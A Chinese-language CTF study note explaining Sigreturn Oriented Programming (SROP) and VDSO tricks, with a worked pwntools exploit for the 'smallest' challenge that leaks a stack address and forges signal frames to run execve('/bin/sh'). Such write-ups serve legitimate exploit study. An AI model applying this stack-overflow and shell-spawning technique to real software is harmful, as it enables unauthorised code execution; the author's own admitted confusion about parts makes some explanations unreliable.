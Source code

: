 ```yaml
---
title: CTF | srop 利用
date: 2018-09-19 16:49:01
draft: false
---
```

SROP(Sigreturn Oriented Programming)
<!-- more -->



## SROP

### signal 机制
`32` 位的 `sigreturn` 的调用号为 `77`，`64` 位的系统调用号为 `15` 

过程：
推荐看 angelboy 的 ppt

```x86asm
x86
mov eax,0x77
int 0x80
x64
mov rax,0xf
syscall
```


### 利用要点
- 利用 sigreturn ,构造 syscall
- 控制所有寄存器
- 控制 ip 和 stack
- 需要足够的栈空间保存 signal frame
- 直接伪造 sigcontext 结构，全部 push 进 stack
- 将 ret address 设在 sigreturn syscall 的 gadget
- 将 signal frame 中的 rip(eip) 设在 syscall
- sigreturn 回来后就会执行我们自己构造的 syscall

### 要求
- 利用栈溢出控制栈内容
- 相应的地址
  - '/bin/sh'
  - signal frame
  - syscall
  - sigreturn


### 系统调用链
- 控制栈指针 rsp
- 把原来 rip 指向的 `syscall` gadget 换成 `syscall;ret` gadget 

基本思路：首先构造一个 `fake signal frame` 写入内存中，将然后将 `RSP` 指向这段空间，再发送 `rt_sigreturn` 信号（ 利用 eax 和 syscall 调用 sigreturn  控制 `rax=15` 32位是 0x77）。此时，内核会将构造好的 `fake signal frame` 取出，恢复。恢复后类似于ROP的方式，为 `syscall` 调用 `execve` 

### Sigreturn gadget
- x86
  - vdso <= 正常的 syscall handler 也會使⽤這邊
- x64
  - kernel < 3.3
    - vsyscall (0xffffffffff600000) <= 位置⼀直都固定
  - kernel >= 3.3
    - libc <= 正常的 syscall handler 也會使⽤這邊
- 利⽤ ROP 製造

`sigreturn` 的功能为 `push frame` 中的内容到寄存器。 `call sigreturn` 时，`esp` 肯定是指向 `frame` 之前的地址的第一个字节（首位的一些字节被覆盖也没事）。 `sigreturn_addr + str(frame)`


### 例题 smallest


程序很简单
调用 read

```x86asm
public start
start           proc near               ; DATA XREF:
xor     rax, rax
mov     edx, 400h       ; count
mov     rsi, rsp        ; buf
mov     rdi, rax        ; fd
syscall                 ; LINUX - sys_read
retn
```
相当于调用 `read(0,$rsp,400)` 有栈溢出
思路：
- 通过控制 `read` 读取的字符数来设置RAX寄存器的值，从而执行sigreturn
- 通过 `syscall` 执行 `execve("/bin/sh",0,0)` 来获取shell。

自己还写不出 exp，根据 ctf-wiki 的调一下，写出自己的理解。

有两种方法：
1. 利用 `syscall` 调用 `mprotect` 函数，将一段空间设置为RWX（可读可写可执行），然后将 `shellcode` ）写到这段空间中去，控制程序执行流跳转执行
首先利用 bof 布置  `mprotect` 的 `frame，利用` rop 回到程序开头置。根据 read 函数，控制 rax 的值来调用 `syscall` 实现 sigreturn，完成 mprotect 功能（利用 `syscall;retn` 和 rsp 实现 `syscall chain` 返回程序起始位置）。再读入 shellcode 执行即可。

2. 常规 SROP，在 stack 中读入 `'/bin/sh'`
说下2.

- 泄露地址是必要的，可以利用 `write` 函数。需要写入` '/bin/sh'`, `write` 系统调用号为1，所以绕过 `xor rax,rax` 刚好使调用号为 1.
- 构造 `frame`, 最后调用 `sigreture` 


#### 地址泄露脚本

1. 一开始要布置 main_addr*3
rsp rbp 返回地址

2. 第二次send,修改低字节部分，改为返回地址，绕过 xor rax rax 
泄露的是buf地址，也就是rsp ,那么最多存储16个字节(?)
 buf在栈上，构造 rsp 指向我们泄露的地址
设置 rax = 15 了：地址8位+7个padding,read 15个字节，作为返回值会存在 rax 中。
有点不明白：
`payload = p64(start_addr) * 3`  
`p64(start_addr) + 'a' * 8 + str(sigframe)` 
为什么 不设置 context.log_level='debug' 泄露地址就会出现错误： 那是因为程序写错了吧...
可是真的关了就错了...?? 为什么...

payload
```python
from pwn import *

context.log_level='debug'
context.arch = 'amd64'
p = process("./smallest")

main_addr = 0x4000b0
sys_addr = 0x4000be

payload = p64(main_addr)*3
p.send(payload)
p.send('\xb3')
stack_addr = u64(p.recv()[8:16])

log.success("leak stack addr:"+hex(stack_addr))

sigframe = SigreturnFrame() # syscall(rax,rdi,rsi,rdx)
sigframe.rax = constants.SYS_read 
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = sys_addr 
payload = p64(main_addr)+'a'*8+str(sigframe)
p.send(payload)

sigreturn = p64(sys_addr)+'b'*7 # rax = 15 
p.send(sigreturn)

sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve # syscall(execve,binsh_addr,0,0)
sigframe.rdi = stack_addr + 0x200 # binsh_addr 
sigframe.rsi = 0x0
sigframe.rdx = 0x0
sigframe.rsp = stack_addr 
sigframe.rip = sys_addr 
frame_payload = p64(main_addr)+'b'*8+str(sigframe)

print len(frame_payload)
payload = frame_payload+(0x200-len(frame_payload))*'\x00'+'/bin/sh\x00'
p.send(payload)
p.send(sigreturn)
p.interactive()

```
![leak](http://p6cwaqxnz.bkt.clouddn.com/smallest-leak-2.png)

#### pwnable.kr unexploitable
这道题的题解就看 pwnable.kr writeup 的博文吧


## VDSO 
我们再来学一下 VDSO
主要是为了 syscall 指令 sysenter/sysexit
- 提供 __kernel_vsyscall 來負責新型的 syscall
- 提供 sigreturn ⽅便在 signal handler 結束後返回
user code 

- sysenter 
  - 参数传递与 0x80 一样
  - 需要做 function prolog
    - push ebp;mov ebp ,esp 
  - stack pivot 的 gadget



### return to vdso 
直接利用 vdso 来做 ROP
- gadgets:
  - x86
    - sysenter
    - sysexit
  - x64
    有些版本的 kernel 可單靠 vdso 的 gadget 組成 execve

libc 中提到：
    "On many architectures the kernel provides a virtual DSO and gives
   **AT_SYSINFO_EHDR** to point us to it. As this is introduced for new
   machines, we should look at it for unwind information even if
   we aren't making direct use of it.  "

  **_rtld_global_ro**：This variable is similar to _rtld_local, but all values are
   read-only after relocation.
找到 vdso 地址
- 暴力
- 地址泄露

SROP 比ROP 的优势在于，ROP 需要用大量的 Gadgets 来完成寄存器的设置；而 SROP 只需要一块够大的内存空间，将 fake signal frame 部署到内存中即可。

例题 defcon 2015 fuckup
vdso+srop
稍后再看...

## 相关资料
[slides](https://tc.gtisc.gatech.edu/bss/2014/r/srop-slides.pdf)

http://www.freebuf.com/articles/network/87447.html    
 https://bestwing.me/2017/03/20/stack-overflow-three-SROP/     
http://thinkycx.me/posts/20170429ichunqiu-pwn-smallest-writeup.html 讲了利用 mprotect 的思路      
https://blog.csdn.net/qq_31481187/article/details/73929569   
